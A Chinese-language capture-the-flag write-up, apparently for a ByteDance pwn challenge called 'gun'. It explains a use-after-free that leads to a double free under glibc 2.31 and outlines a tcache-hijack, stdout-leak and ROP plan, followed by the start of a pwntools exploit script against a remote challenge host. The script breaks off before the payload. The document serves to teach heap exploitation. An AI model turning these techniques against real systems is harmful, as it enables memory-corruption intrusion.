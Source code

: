 很隐蔽的UAF导致的double free

在买子弹的时候，并没有设置next为null

![image-20240714122140052](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\heap\glibc2.31下的新double-free手法／字节跳动pwn题gun题解\images\image-20240714122140052.png)

装载时，也没设置next为null

![image-20240714122151932](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\heap\glibc2.31下的新double-free手法／字节跳动pwn题gun题解\images\image-20240714122151932.png)

在最后发射时，是否进行free却依赖next!=null这个条件

![image-20240714122207271](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\heap\glibc2.31下的新double-free手法／字节跳动pwn题gun题解\images\image-20240714122207271.png)

如果申请后next有残留，那么就会导致一个意外的free

POC

![image-20240714122227818](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\heap\glibc2.31下的新double-free手法／字节跳动pwn题gun题解\images\image-20240714122227818.png)

## 思路

1.  先利用指针残留，泄露堆地址+libc地址
2.  通过new fastbin double 得到一个任意写，为了扩大战果，这个任意写用来打堆上的tcache结构体最划算
3.  劫持tcache中的entries链表头指针数组，一个指向_IO_2_1_stdout，另一个为了继续获得任意写，指向tcache结构自身
4.  打stdout，修改flag为0xFBAD1800，修改write的三个指针指向libc中的__envrion指针，从而实现任意读取，泄露栈地址
5.  通过另一个指向tcache自身的entries项，让tcache指向栈上的返回地址
6.  进行ROP

注意，判断是否使用tcache entries进行分配时，是通过counts数组判断的，所以劫持前需要先free几个，设置好counts

```c
 if (tc_idx < mp_.tcache_bins && tcache && tcache->counts[tc_idx] > 0) //通过counts判读是否还有chunk
  {
    return tcache_get(tc_idx);
  }c
```

## EXP

```python
#! /usr/bin/python
from pwn import *
context.log_level = 'debug'
context(arch='amd64', os='linux')

#sh = process('./gun')
#proc_base = sh.libs()[sh.cwd + sh.argv[0].strip('.')]
sh = remote('123.56.96.75', 30772)
elf = ELF('./gun')
libc = ELF('./libc.so.6')

def Log(val):
	log.success('%s = %s'%(str(val), hex(eval(val))))

def Name(name):
	sh.recvuntil('name')
	sh.sendline(name)

def Cmd(i):
	sh.recvuntil('Action> ')
	sh.sendline(str(i))

def Buy(sz, cont):
	Cmd(3)
	sh.sendlineafter('Bullet price: ', str(sz))
```